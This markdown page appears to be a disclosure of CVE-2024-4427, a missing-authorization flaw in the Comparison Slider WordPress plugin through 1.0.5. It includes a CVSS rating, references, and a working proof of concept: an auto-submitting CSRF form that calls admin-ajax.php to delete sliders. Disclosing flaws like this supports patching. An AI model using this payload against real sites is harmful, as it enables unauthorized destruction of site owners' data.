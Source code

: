 ```yaml
---
layout: page
title: CVE-2024-4427
subtitle: Comparison Slider <= 1.0.5 - Missing Authorization
---
```

## Description
The Comparison Slider plugin for WordPress is vulnerable to unauthorized modification of data due to a missing capability check on several AJAX actions in all versions up to, and including, 1.0.5. This makes it possible for authenticated attackers, with subscriber access or above, to change plugin settings and perform other actions such deleting sliders.

## Severity
  4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.0.5

## PoC :
```
Use this csrf & using subscriber account

<html>
  <!-- Made by eneriiiii<3 / https://x.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="mod" value="comparison" />
      <input type="hidden" name="action" value="removeGroup" />
      <input type="hidden" name="listIds&#91;&#93;" value="1" />
      <input type="hidden" name="pl" value="ics" />
      <input type="hidden" name="reqType" value="ajax" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/comparison-slider/comparison-slider-105-missing-authorization
- https://www.cve.org/CVERecord?id=CVE-2024-4427





